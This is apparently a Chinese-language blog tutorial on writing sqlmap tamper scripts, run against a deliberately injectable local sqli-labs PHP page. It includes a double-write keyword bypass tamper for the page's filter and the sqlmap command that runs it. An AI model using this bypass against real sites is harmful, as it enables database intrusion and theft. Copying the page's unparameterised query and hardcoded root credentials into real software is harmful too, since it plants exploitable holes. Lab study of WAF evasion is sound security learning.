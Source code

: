 # SQLMAP --TAMPER的编写

跟着师傅的文章进行学习

 [sqlmap之tamper脚本编写_sqlmap tamper编写-CSDN博客](https://blog.csdn.net/qq_44159028/article/details/119111707) 

这里学习一下tamper的编写

这里的tamper 其实就是多个绕过waf的插件 通过编写tamper 我们可以学会

在不同过滤下 执行sql注入

我们首先了解一下 tamper的结构

这里我们首先看一个最简单的例子

```python
from lib.core.enums import PRIORITY
 
__priority__ = PRIORITY.LOWEST
 
def dependencies():
    pass
def tamper(payload,**kwargs):
    return payload.replace("'","\\'").replace('"','\\"')
```

这里的例子我们可以发现

我们可以通过设置  


```markdown
__priority__: 当多个tamper被使用时的优先级
 
            （LOWEST、LOWER、LOW、NORMAL、HIGH、HIGHER、HIGHEST）

tamper  对payload的处理 这里是将 双引号 单引号都加上 \\
```

我们来根据题目进行测试吧

```php
function sqlwaf( $str ) {
	$str = str_ireplace( "and", "", $str );
	$str = str_ireplace( "or", "", $str );
	$str = str_ireplace( "union", "", $str );
	$str = str_ireplace( "select", "", $str );
	$str = str_ireplace( "sleep", "", $str );
	$str = str_ireplace( "group", "", $str );
	$str = str_ireplace( "extractvalue", "", $str );
	$str = str_ireplace( "updatexml", "", $str );
	$str = str_ireplace( "PROCEDURE", "", $str );
	
	return $str;
}
```

增加过滤 将这些替换为空 这里其实我们本身已经知道如何注入了 双写绕过即可

```php
<?php
echo '<h1>参数是 id 方式是GET</h1>';
$dbhost = '172.18.224.108';  // mysql服务器主机地址
$dbuser = 'root';            // mysql用户名
$dbpass = 'root';          // mysql用户名密码
$conn = mysqli_connect($dbhost, $dbuser, $dbpass);
function sqlwaf( $str ) {
	$str = str_ireplace( "and", "", $str );
	$str = str_ireplace( "or", "", $str );
	$str = str_ireplace( "union", "", $str );
	$str = str_ireplace( "select", "", $str );
	$str = str_ireplace( "sleep", "", $str );
	$str = str_ireplace( "group", "", $str );
	$str = str_ireplace( "extractvalue", "", $str );
	$str = str_ireplace( "updatexml", "", $str );
	$str = str_ireplace( "PROCEDURE", "", $str );
	
	return $str;
}
// 设置编码，防止中文乱码
mysqli_query($conn , "set names utf8");
$a = sqlwaf($_GET['id']);
echo $d;
if($a){
    $sql = "SELECT * FROM user where id = '$a'";
}
 
mysqli_select_db( $conn, 'test' );
$retval = mysqli_query( $conn, $sql );
if(! $retval )
{
    die( mysqli_error($conn));
}
echo '<h2>SQL 注入测试</h2>';
echo '<table border="1"><tr><td>ID</td><td>NAME</td><td>PASSWD</td>';
while($row = mysqli_fetch_array($retval, MYSQLI_NUM))
{
    echo "<tr><td> {$row[0]}</td> ".
         "<td>{$row[1]} </td> ".
         "<td>{$row[2]} </td> ".
         "</tr>";
}
echo '</table>';
mysqli_close($conn);
?>
```

但是我们如何在tamper中体现呢

我们首先进行正常注入看看是否成功



<img src="https://i-blog.csdnimg.cn/blog_migrate/d83f713979daf62616bb5b52aa07c9c7.png" alt="" style="max-height:120px; box-sizing:content-box;" />


发现这里就注入失败了 无法实现注入

所以我们开始修改tamper

```cobol
from lib.core.enums import PRIORITY
 
__priority__ = PRIORITY.NORMAL
 
def dependencies():
    pass
def tamper(payload,**kwargs):
    return payload.replace("OR","oorr").replace('UNION','uniunionon').replace('SELECT','selselectect').replace("PROCEDURE", "PROCEPROCEDUREURE").replace("SLEEP", "slesleepep").replace("GROUP", "grogroupup").replace("EXTRACTVALUE", "extractvextractvaluealue").replace("UPDATEXML", "updatupdatexmlexml")
```

就是很简单的对payload进行操作 将所有过滤的内容实现绕过即可

然后我们再次进行注入

```cobol
py3 .\sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=1%27
 --tamper=waf1.py -v3
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/554c480590ac7f8b17cb9ecc47c3613c.png" alt="" style="max-height:398px; box-sizing:content-box;" />


注入成功

这是最简单的 tamper 后续写就要按照题目来了